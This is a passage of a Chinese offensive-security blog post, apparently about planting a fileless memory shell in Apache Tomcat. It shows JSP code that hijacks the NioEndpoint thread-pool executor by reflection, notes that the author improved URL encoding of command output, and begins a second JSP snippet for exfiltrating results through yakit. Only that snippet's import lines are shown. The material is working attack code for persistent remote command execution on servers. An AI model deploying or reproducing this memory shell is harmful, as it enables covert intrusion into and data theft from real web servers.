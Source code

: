 ```bash
    ThreadPoolExecutor exec = (ThreadPoolExecutor) getField(nioEndpoint, "executor");
    threadexcutor exe = new threadexcutor(exec.getCorePoolSize(), exec.getMaximumPoolSize(), exec.getKeepAliveTime(TimeUnit.MILLISECONDS), TimeUnit.MILLISECONDS, exec.getQueue(), exec.getThreadFactory(), exec.getRejectedExecutionHandler());
    nioEndpoint.setExecutor(exe);
%>
```

关于上面的内存马的分析，请参考下面这篇文章：

> [https://mp.weixin.qq.com/s/cU2s8D2BcJHTc7IuXO-1UQ](https://mp.weixin.qq.com/s/cU2s8D2BcJHTc7IuXO-1UQ)

效果：

[![](assets/1708482732-05c4a751bdf28aeddf3e2efa77ce2139.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20240211003506-5926c3cc-c832-1.jpeg)

需要注意的是，原文中的代码没有考虑到命令输出结果中含有中文等字符的情况，所以需要`url`编码，这一点我在上面的代码中已改进。

当然，如果目标条件运行，你也可以利用`yakit`直接外带出来，`jsp`代码如下：

```bash
<%@ page import="org.apache.tomcat.util.net.NioEndpoint" %>
<%@ page import="org.apache.tomcat.util.threads.ThreadPoolExecutor" %>
<%@ page import="java.util.concurrent.TimeUnit" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="java.util.concurrent.BlockingQueue" %>
<%@ page import="java.util.concurrent.ThreadFactory" %>
<%@ page import="java.nio.ByteBuffer" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.tomcat.util.net.SocketWrapperBase" %>
<%@ page import="java.nio.charset.StandardCharsets" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.io.OutputStream" %>
<%@ page import="java.net.HttpURLConnection" %>
<%@ page import="java.net.URL" %>
<%@ page import="java.nio.ByteBuffer" %>
<%@ page import="java.nio.charset.StandardCharsets" %>
<%@ page import="java.util.ArrayList" %>
<%@ page import="org.apache.coyote.RequestInfo" %>
<%@ page import="org.apache.coyote.Response" %>
<%@ page import="java.net.URLEncoder" %>
<%@ page import="java.util.Arrays" %>
```